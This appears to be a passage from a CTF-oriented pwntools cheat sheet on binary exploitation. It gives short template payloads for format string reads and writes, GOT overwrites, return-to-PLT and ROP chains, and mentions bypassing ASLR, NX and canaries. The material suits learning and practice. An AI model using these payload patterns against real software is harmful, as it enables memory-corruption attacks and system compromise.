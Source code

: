 ## Format String Exploit

Exploiting format string vulnerabilities to read or write memory.

```python
payload = b"%s" * offset + p32(address) # Read memory
# or
payload = fmtstr_payload(offset, {address: value}) # Write memory
```

## Bypassing Mitigations

Mitigations like ASLR, NX, and stack canaries can be bypassed using techniques like ret2libc, stack pivoting, or brute-forcing.

```python
# Techniques vary based on the mitigation in place.
```

## GOT Overwrite

Overwriting the Global Offset Table (GOT) to redirect function calls.

```python
got_entry = elf.got['function_name'] # Replace 'function_name' with the actual function
payload = fmtstr_payload(offset, {got_entry: new_address})
```

## Return to PLT

Manipulating the Procedure Linkage Table (PLT) to control function calls.

```python
plt_entry = elf.plt['function_name'] # Replace 'function_name' with the actual function
payload = b'A' * buffer_size + p32(plt_entry) + p32(return_address) + p32(argument)
```

## Playing with ROP

Return-Oriented Programming (ROP) involves chaining together pieces of existing code to perform arbitrary operations.

```python
rop = ROP(binary)
rop.call(function, [arg1, arg2]) # Add ROP gadgets
payload = fit({buffer_size: rop.chain()})
```

---

This overview provides a starting point for exploring binary exploitation techniques using pwntools in CTF challenges. Each topic can be expanded with detailed examples and explanations in a full CTF guide or workshop.

---
